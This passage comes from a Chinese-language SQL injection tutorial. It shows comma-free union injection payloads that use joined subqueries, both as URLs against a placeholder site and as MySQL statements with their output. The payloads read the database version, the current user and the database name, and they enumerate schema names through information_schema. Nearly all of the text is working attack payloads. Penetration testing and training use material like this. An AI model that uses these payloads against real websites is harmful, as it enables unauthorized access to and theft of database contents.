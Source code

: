 

注: 我的test表一共就四个字段,所以join 4次即可,实战中如果有5个字段,那就join 5次即可



# 0x05 读取数据库版本/当前连接用户/当前连接的数据库



web语句: http://www.test.com/sql.php?id=-1 union select * from ((select version())A join (select user())B join (select database())C join (select 4)D)



数据库语句: select  *from test where id=-1 union select*  from ((select version())A join (select user())B join (select database())C join (select 4)D);



```plain
mysql> select * from test where id=-1 union select * from (
    (select version())A join 
    (select user())B join 
    (select database())C join 
    (select 4)D
);
+--------+----------------+------+---------+
| id     | test           | map  | content |
+--------+----------------+------+---------+
| 5.5.53 | root@localhost | test | 4       |
+--------+----------------+------+---------+
1 row in set (0.00 sec)
```



# 0x06 爆库名



注意: LIMIT 0 修改会显示其他库名

例如:

修改为0 就是出1库

修改为1 就是出2库



web语句: http://www.test.com/sql.php?id=-1 union select * from ((select schema_name from information_schema.schemata limit 1 offset 0)A join (select 2)B join (select 3)C join (select 4)D)



数据库语句: select  *from test where id=-1 union select*  from ((select schema_name from information_schema.schemata limit 1 offset 0)A join (select 2)B join (select 3)C join (select 4)D)



```plain
# 一库
mysql> select * from test where id=-1 union select * from (
    (select schema_name from information_schema.schemata limit 1 offset 0)A join 
    (select 2)B join 
    (select 3)C join (select 4)D
);

+--------------------+------+------+---------+
| id                 | test | map  | content |
+--------------------+------+------+---------+
| information_schema | 2    | 3    | 4       |
+--------------------+------+------+---------+
1 row in set (0.00 sec)
```